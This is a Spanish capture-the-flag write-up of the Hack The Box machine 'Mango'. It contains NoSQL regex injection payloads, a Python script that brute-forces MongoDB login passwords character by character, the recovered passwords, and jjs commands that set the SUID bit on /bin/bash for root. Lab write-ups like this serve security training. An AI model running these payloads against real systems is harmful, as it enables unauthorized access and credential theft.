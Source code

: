 ```yaml
---
layout: post
title:  "Maquina Retirada Mango de Hack The Box (Necesario VIP)"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada MANGO
tags: HTB, Bypass, NoSQLI, Mongo-db, Web Hacking, Maquinas Retiradas, Writeup
---
```


# Mango ~ Hack The Box

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.162       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: Host: 10.10.10.162; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos un dominio 

Usamos la herramienta whatweb
```bash
# whatweb 10.10.10.162                                                                                                                                                                                        1 ⚙
http://10.10.10.162 [403 Forbidden] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.162], Title[403 Forbidden]
```
Nos arroja un Forbidden y si probamos con el dominio encontrado?
```bash
# whatweb staging-order.mango.htb                                                                                                                                                                             
http://staging-order.mango.htb/ [200 OK] Apache[2.4.29], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.162], PasswordField[password], Script, Title[Mango | Sweet & Juicy]
```
Nos arroja mas informacion.

Vemos que Tenemos un Login, probamos las tipicas injecciones de SQLI y vemos que no nos respode a ninguna.. 
Buscamos informacion sobre las bases de datos `Mongo-db`
Vemos que justo para las bases de datos `Mongo-db` hay unas injecciones llamadas `NoSqli`.

Injeccion No Sqli
```bash
username[$regex]=^a.*$&password[$ne]=lol&login=login    --- codigo 302
```
Averiguamos la longitud de la contraseña para el usuario `admin`: `username=admin&password[$regex]=^.{12}$&login=login   ----302`

Averiguarmos la longitud de la contraseña para el usuario `mango`: `pusername=mango&password[$regex]=^.{16}$&login=login ------- 302`

Conseguimos sacar dos usuarios validos: `admin , mango`

Nos montamos un `exploit` en python3 para sacar las contraseñas de los dos usuarios enumerados de la misma forma.
```python3
#!/usr/bin/python3

import requests
import re
import signal
import sys
import pdb
import string
import time

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://staging-order.mango.htb"
s = string.ascii_letters + string.digits + string.punctuation 

def makeRequest():

    password = ""

    for i in range(0, 20):

        for character in s:

            p1.status("Probando el caracter %s" % character)

            post_data = {
                'username': 'admin',
                'password[$regex]': '^%s.*$' % (re.escape(password + character)),
                'login': 'login'
            }

            r = requests.post(main_url, data=post_data, allow_redirects=False)

            if r.status_code == 302:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    p2 = log.progress("Password")
    time.sleep(2)

    makeRequest()
```
Lanzamos este exploit para sacar las passwords
Para el user `mango`:
```bash
# python3 Mango_NoSQLI.py                                                                                                                                                                                     
[↙] Fuerza bruta: Probando el caracter ~
[◒] Password: h3mXK8RhU~f{]f5H
```
Para el user `admin`:
```bash
# python3 Mango_NoSQLI.py                                                                                                                                                       

[..\.....] Fuerza bruta: Probando el caracter ~
[◥] Password: t9KcS3>!0B#2
```

# Accediendo por el SSH con las Credenciales Obtenidas
Teniendo las credenciales de la base de datos podriamos probar a conectarnos por el servicio `ssh` con las `passwords` encontradas.
```bash
mango@mango:~$ whoami
mango

mango@mango:/home$ ls
admin  mango

mango@mango:/home/admin$ ls
user.txt

```
ernumeramos el sistema:
```bash
mango@mango:/$ find / -group admin -type f 2>/dev/null
/var/crash/_usr_bin_pkttyagent.4000000000.crash
/home/admin/.bash_logout
/home/admin/.profile
/home/admin/.bashrc
/home/admin/user.txt
/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
-rwsr-sr-- 1 root  admin  10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```
Como nosotros teniamos la password encontrada del usuario `Admin` podemos probar a hacer un cambio de usuario con el comando `su`.
Vemos que lo hacemos sin problema y conseguimos la flag de `user.txt`.

# Escalada de privilegios mediante el Binario SUID jjs
Con el binario SUID encontrado de jjs nos dirigimos como siempre a la pagina de GTFOBins y chequeamos por `jjs` y permisos SUID:
```bash
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | ./jjs ``
```
Para Hacerlo de una manera mas sencilla, nos abrimos una session interactiva y modificamos un poco el comando a introducir:
- La Modificamos ya que estamos en una session interactiva de jjs -
```bash
$ Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()

$ Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()
```
Introducimos la sentencia en `java` y conseguimos `root`
Maquina Rooteada =) KOHack


